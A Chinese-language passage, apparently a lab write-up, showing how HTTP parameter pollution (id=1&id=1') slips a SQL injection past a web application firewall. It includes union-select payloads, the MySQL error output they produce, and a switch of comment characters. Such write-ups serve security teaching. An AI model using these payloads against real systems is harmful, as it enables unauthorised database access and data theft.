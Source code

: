 返回效果：

Your Login name:Dummy
Your Password:p@ssword

************由此可见，当参数相同时，数据库会执行最后一个 参数的值**************

```undefined
                那么结合 源码 部分的瑕疵
```

源码的java_implimentation函数，就是将 & 作为，数组分隔符的

当有某一数组的前两位是id的话，就返回id后的值，并且跳出循环

如果这样写注入语句：

id=1&id=1'

安全狗会不会咬我呢

分析分析：

java_implimentation把其打散为 id=1 id=1'

第一个id满足了跳出循环的条件，并且把 1 赋值给 id1 拿去 给 white 函数做检查

满足 全是 数字，放行 _GET 的 id 参数

但是 GET 碰见 单一参数 重复赋值的情况时，会只保留最后一次 被赋值 的值

也就是 _GET 到了 1'

前台测试：

注入语句：

id=1&id=1'(先看看闭合条件)

效果如下：

页面报错了，但是并不是显示有非法字符（成功绕过WAF)

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

错误分析：

near ' ' 1' ' LIMIT 0,1 ' at line 1

说明闭合条件就是 单引号 '

构造注入语句：

id=1&id=1' and 1=2 union select 1,2,3 #

页面错误：

Hint: The Query String you input is: id=1&id=1%27%20and%201=2%20union%20select%201,2,3%20

发现 # 符号不见了

换一个 --+

返回页面报出了 字段位置信息

